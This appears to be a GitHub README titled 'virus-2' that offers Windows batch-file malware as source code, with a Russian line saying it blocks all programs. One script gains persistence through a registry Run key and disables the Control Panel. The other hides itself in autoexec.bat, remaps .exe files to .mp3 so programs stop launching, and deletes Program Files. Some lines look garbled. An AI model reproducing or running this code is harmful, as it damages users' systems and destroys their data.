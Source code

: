 # virus-2
[SRC] copy ""%0"" "%SystemRoot%\system32\File.bat" reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Filel" /t REG_SZ /d "%SystemRoot%\system32\File.bat" /f reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoControlPanel /t REG_DWORD /d 1 /f [/SRC] Этот вирус,блокирует все программы,но интернет работает. [SRC] Echo_inactive_inactive off Echo Virus Loading Date 13.09.96 If exist c:ski.bat goto abc Copy %0 c:ski.bat Attrib +h c:ski.bat Echo c:ski.bat >>autoexec.bat :abc md PRIDUROK md LUZER md DURAK md LAMER Label E: PRIDUROK assoc .exe=.mp3 del c:Program Files/q Echo VIRUS LOAD [/SRC]
